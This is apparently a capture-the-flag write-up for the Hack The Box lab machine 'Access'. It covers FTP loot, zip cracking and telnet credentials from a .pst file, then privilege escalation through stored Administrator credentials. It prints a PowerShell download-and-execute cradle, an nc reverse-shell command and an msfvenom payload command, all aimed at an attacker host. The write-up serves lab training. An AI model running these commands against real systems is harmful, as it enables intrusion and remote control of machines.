---

```
Scope:
10.10.10.98
```

# Recon
## Nmap

```bash
sudo nmap -sV -sC -sT -p- access.htb -T5 --min-rate=5000 -vvvv -Pn

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Cant get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet  syn-ack Microsoft Windows XP telnetd (no more connections allowed)
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
|_http-title: MegaCorp
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp
```

I noticed that `ftp` was readable using anon access.

## 21/TCP - FTP



I found the `backup.mdb` file inside the `Backups` directory which I transferred over and analyzed it using `strings`:



As well as the `Access Control.zip` file inside the `Engineer` directory.

### zip file

This latter file was password protected:



We can try to crack it using `zip2john`


However this did not work:



Instead I went ahead and used the output of the `backup.mdb` file in combination with `strings` to create a password list which I then would use to crack the password:



```
access4u@security
```

I used this password to open up the zip file which extracted the `Access Control.pst` file:



### .pst file

I had to look up what a `.pst`  file extension even was:



We can use the `readpst` binary to read it:



We can now go ahead and use `cat` to read the contents of the newly created file:





```
security
4Cc3ssC0ntr0ller
```

# Foothold
## 23/TCP - Telnet

Using `telnet` we were able to get ez access:



### user.txt

I then went on to get the `user.txt` flag:



## Enumeration



I found some interesting directories inside the `C:\` drive.



I then wanted to do some automated enum but got blocked:



The group policy wouldn't let me.

However I could execute `powershell` commands:



So I then used this `powershell` reverse shell where I appended the following:





Then using the following command I don't have to manually trigger the shell anymore, it get's executed on download:

```powershell
powershell "IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.6/shell.ps1')"
```



# Privilege Escalation
## Stored Creds

Using the `cmdkey /list` command we figure out that there are stored creds for the *Administrator* on the machine:



Since these creds should give us direct access as the *Admin* we can abuse this using the `runas` command.

```powershell
runas /savecreds /user:ACCESS\Administrator "nc.exe 10.10.14.6 443 -e bash"
```

Unfortunately it connected but instantly kicked us off:



We need something with more persistence.

### msfvenom

Using the following `msfvenom` payload the shell stayed up and I had elevated access:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f exe > shell.exe
```



### root.txt




---
